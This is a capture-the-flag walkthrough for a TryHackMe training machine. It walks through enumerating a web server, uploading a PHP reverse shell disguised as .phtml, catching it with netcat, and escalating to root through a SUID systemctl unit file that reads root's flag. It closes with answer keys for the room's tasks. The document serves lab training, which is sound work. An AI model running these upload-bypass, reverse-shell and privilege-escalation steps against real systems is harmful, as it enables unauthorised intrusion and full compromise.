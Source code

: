Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

```$ nmap -sC -sV -T4 -A <IpAdress>```

4. Scanning show us  the [Apache server](https://en.wikipedia.org/wiki/Apache_HTTP_Server) is running on port "3333". So we type in your browser
Address: Ip: 3333 and we look at what's on it.

5. Now, due to the fact that searching manually for paths on the page can be very monotonous and ineffective, we will use [dirb](https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86),
[dirbuster](https://ourcodeworld.com/articles/read/417/how-to-list-directories-and-files-of-a-website-using-dirbuster-in-kali-linux), [wfuzz](https://wfuzz.readthedocs.io/en/latest/user/basicusage.html), [gobuster](https://tools.kali.org/web-applications/gobuster). Depending on what is more convenient for you. I will use a gobuster:

```$ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt```

6. After a while we find the path "/internal", so we check to see what's there. (Ip: 3333 / internal). We can see that on the site
we can send files to the server. The first thing we check is what files can be sent. Mostly cases can be omitted.

7. Since I'm on the "Kali" system, I will use PHP shell. Copy reverse-shell to your working directory:

```$ cp /usr/share/webshells/php/php-reverse-shell.php .```

8. We now need to edit the file to our Ip and Port address. The Ip address is the address that appears after "ifconfig" is entered
next to "tun0" (your ip in VPN). The port set on the "hacker" 4444. ($ ip, $ port). And let's save the file.
(I used the "nano" editor, but you can use the editor that is more convenient for you, e.g. "vi")

9. To intercept reverse shell it would be nice to listen to the port we set up. We will use [NetCat](https://en.wikipedia.org/wiki/Netcat) for this:

```$ nc -nlvp 4444``` (<--port)

10. You can make copies of this file to different ".html" ".php" ".php1" ".php2" ".php5" ".phtml" paths. I checked
trying to upload files manually, but you can use for example "BurpSuite".

11. After checking, the server managed to send the file with the extension ".phtml". So we check where the file was uploaded to
to do this, add "/ uploads" to the path and see reverse file.

12. We click on the file on the server (in the browser) and in the terminal where we started netcat we see the connection and can start issuing commands.

13. Typing for example "id" "whoami" we can see our permissions.

14. At this point, we need to see what we are authorized to do when entering e.g. home:
```
$ cd /home
$ ls
$ cd bill
$ cat user.txt
```

15. The first "flag" for the user was displayed.

16. Now we are looking for SUID binaries. [SUID](https://en.wikipedia.org/wiki/Setuid) stands for the permissions of a given user to certain files:

```$ find / -user root -perm -4000 -print 2>/dev/null```

17. We now see a few files with the SUID flag set.

18. Now we need to make an attack called [Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation) to elevate our system privileges. By scanning
the SUID flag we found a file named [systemctl](https://www.freedesktop.org/software/systemd/man/systemctl.html).

Systemctl is a binary file that controls user interfaces and is responsible e.g. for services run during boot.
By default, systemctl will search files in "/ etc / system / systemd" in order to search and service units.

19. On this machine we cannot create new files in the paths belonging to root, but we can change the [variables environment](https://en.wikipedia.org/wiki/Environment_variable) in an already existing one, so we can do PrivEsc.

20. The first thing we do is create an environment variable:

```$ priv=$(mktemp).service```

Now we need to create a unit file and assign it to an environment variable:
```
$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv
```

( Don't be afraid to use enter until the end of '<- then you can continue typing on a new line. )

21. What we just did is create a service that will execute "Bash", then read the falge from root's root directory and save it to the file / flag in the "/ opt" directory.

22. Now we need to fire the unit file with "systemctl".

```$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv
```

23. Now we can see the flag file in the directory "/opt".

```$ cat flag```

24. That's it. We just executed the command for the root user.

# Completing the headings

<details>
<summary>Task 2.</summary>

```
  1) 6

  2) 3.5.12

  3) 400

  4) DNS

  5) Ubuntu

  6) 3333
```
</details>

<details>
<summary>Task 3.</summary>

```
  1) /internal/

```
</details>

<details>
<summary>Task 4.</summary>

```
  1) .php

  2) .phtml

  3) bill

  4) YOUR USER FLAG 

```
</details>

<details>
<summary>Task 5.</summary>

```
  1) /bin/systemctl

  2) YOUR ROOT FLAG 

```
</details>
